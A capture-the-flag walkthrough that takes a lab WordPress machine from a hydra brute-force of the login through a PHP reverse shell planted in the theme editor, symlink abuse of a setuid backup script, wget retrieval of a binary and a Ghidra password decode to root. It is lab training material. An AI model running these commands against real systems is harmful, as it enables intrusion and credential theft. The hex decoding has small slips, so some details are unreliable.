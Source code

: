 
## Progression Tree (Exploit Flow)

![Progression Tree](Assets/Pasted%20image%2020250501075251.png)


## Detailed Steps for PWNING the Troll Machine

### STEP 1: Brute Forcing the WP login page


![Login](Assets/Pasted%20image%2020250501081101.png)

- It is essential to find valid username in order to brute force the login page.
- This can be achieved with variety of ways: 
	
	- Using a `json` endpoint
	
    ![JSON Enumeration](Assets/Pasted%20image%2020250501081558.png)
	- Brute forcing the username is possible via the login form as the response varies for a valid vs an invalid account.
		- For an user that does not exist this the response we get the following error.
      ![Invalid user error](Assets/Pasted%20image%2020250501081824.png)

		- Using default/common usernames we can make a guess for a valid user.
      ![Valid Guess](Assets/Pasted%20image%2020250501082054.png)

- Now that we know a valid user we are going use hydra to bruteforce the login page
- Following is how the hydra command look like
	- `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt 10.10.104.139 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR" -v`
	- As you may have noticed instead of `rockyou.txt` list we are using `2023-200_most_used_passwords.txt`, this is because the `rockyou.txt` is massive and will take a lot time so i always prefer to start with smaller lists first.
	
	![Hydra Success](Assets/hydra-success.png)

- And within couple of minutes we have our credentials which we will be using to login the admin panel.
- Credentials: admin:theworldinyourhand

### STEP 2: Getting RCE Via PHP SHELL Through ADMIN PANEL

- After logging in admin panel hover over tools, and select `Theme File Editor`.

	![Payload](Assets/Pasted%20image%2020250501180423.png)

- After which select `Theme Functions`.
- From `revshell.com` I will copy the PHP payload (PHP PentestMoneky) to get RCE.
	
	![Paste Shell](Assets/Pasted%20image%2020250501180518.png)

	![Netcat Listener](Assets/Pasted%20image%2020250501180639.png)

- Using netcat let's up open a listener to catch the shell.
	![Shell Access](Assets/Pasted%20image%2020250501180853.png)

	(P.S Using rlwrap will allow you to cycle through commands that you give the target machine and will make you life a whole lot easier :D)
- Once we click `Update File` button in the `Edit Theme Panel` , we will get the shell.
	![Important Note](Assets/Pasted%20image%2020250501181145.png)

### STEP 3: Enumeration

- We see that their are two users on the Machine. 
	- Cypher
	- Robert
- We can't enter Robert's home directory but we can enter Cypher's home directory where we find an interesting file which has following content. File name `important.txt`
	- ![Hidden Password](Assets/Pasted%20image%2020250501181524.png)

- According to file Cypher has a habit of hiding password at random places across the system. Let's do some manual enumeration to find the password.
- In  `/etc` folder we find that there exists and unusual folder named `i` inside which following folders exists without any other file.
	![User Switch Success](Assets/Pasted%20image%2020250501181708.png)

- Interesting enough it does look like some password.
- Let's try switching user to Cypher with this password.
	- `ilikegames123`
	![Symlink](Assets/Pasted%20image%2020250501183044.png)
- And sure enough we were able to login as user Cypher.
- This gives us the first flag `user.txt` which inside Cypher's home directory.
(P.S You will need to make the shell interactive by using the following command `python3 -c 'import pty; pty.spawn("/bin/bash");'`)


### STEP 4: Analyzing and Abusing the backup script via Symlink

- According to the `important.txt` file there should be a backup script with suid bit which might be able to exploit to impersonate Robert.
- The `/opt/backup_scripts/backup ` script allows user to create a backup of any file inside `/var/log/` folder. It accepts path as argument and trying to break seems futile since there is input filtering in the script.
- But interestingly enough there is folder named `cypher` in `/var/log/` directory , which is owned by Cypher. 
- As cypher we can enter Robert's home directory and see an interesting binary `mysql_test_script` which we are not allowed to access.

- To exploit the backup script we are going to create a symlink in `/var/log/cypher/` folder which will be pointing towards `mysql_test_script`.
	![Backup Triggered](Assets/Pasted%20image%2020250501183152.png)
	Command: `ln -sf /home/robert/mysql_test_script /var/log/cypher/script`
	
- After which we can run backup script to create a backup of the file in `/backup` folder
	![Python Server](Assets/Pasted%20image%2020250501183901.png)

### STEP 5: Using Ghidra to analyze the binary file

- On the target machine we will start a python server inside the `/backup` folder. Make sure you are in the `/backup` folder and execute the following command.
	![Wget Download](Assets/Pasted%20image%2020250501183951.png)
	Command: `python -m http.server 9999 &`
(P.S Adding & will make sure that shell remains usable otherwise you will have to open a new connection )
- And on the attacker machine based on the file name execute the following 
	![Ghidra Analysis](Assets/Pasted%20image%2020250501184450.png)
	Command: `wget http://10.10.147.108:9999/script_backup_20250501_130009`
(Or just visit http://10.10.147.108:9999/ in your browser and click on the file to download it.)

- Inside Ghidra we find the script is fairly simple. Going to the main function we we can see the command being used and make an educated guess what the password is being stored as.
	 ![Root Access](Assets/Pasted%20image%2020250501185701.png)

- Given: 
- local_28 = 0x6e656666306d6131
- local_20 = 0x39303165766973
- uStack_19 = 0x242439

- Step-by-Step Breakdown: 
 
 - local_28 = 0x6e656666306d6131
 - This hexadecimal number 0x6e656666306d6131 can be broken down into a sequence of 8 bytes:
 - Hex to ASCII Conversion: 
	 - 0x6e → n 
	 - 0x65 → e 
	 - 0x66 → f
	 - 0x66 → f
	 - 0x30 → 0 
	 - 0x6d → m
	 - 0x61 → a
	 - 0x31 → 1
 - This results in the ASCII string neffoma1
 
 - local_20 = 0x39303165766973 
 - This hexadecimal number 0x39303165766973 can be broken down into 8 bytes: 
 - Hex to ASCII Conversion: 
	 - 0x39 → 9 
	 - 0x30 → 0 
	 - 0x31 → 1 
	 - 0x65 → e 
	 - 0x76 → v 
	 - 0x69 → i 
	 - 0x73 → s

-  uStack_19 = 0x242439 
- This hexadecimal number 0x242439 can be broken down into 3 bytes:
- Hex to ASCII Conversion:
- 0x24 → $ 
- 0x24 → $ 
- 0x39 → 9 
- This results in the ASCII string `$$9`.

- We get the final password: `1am0ffens1ve1099$$`.

- Using the above credentials we were successfully able to login as the user `robert`
- We also find that user `robert` can execute commands as root. Hence we can get root.txt from /root directory now.
- Command : `sudo -i` will make us the root.

	![[Pasted image 20250501185701.png]]

- AND THE TROLL MACHINE HAS BEEN PWNED!
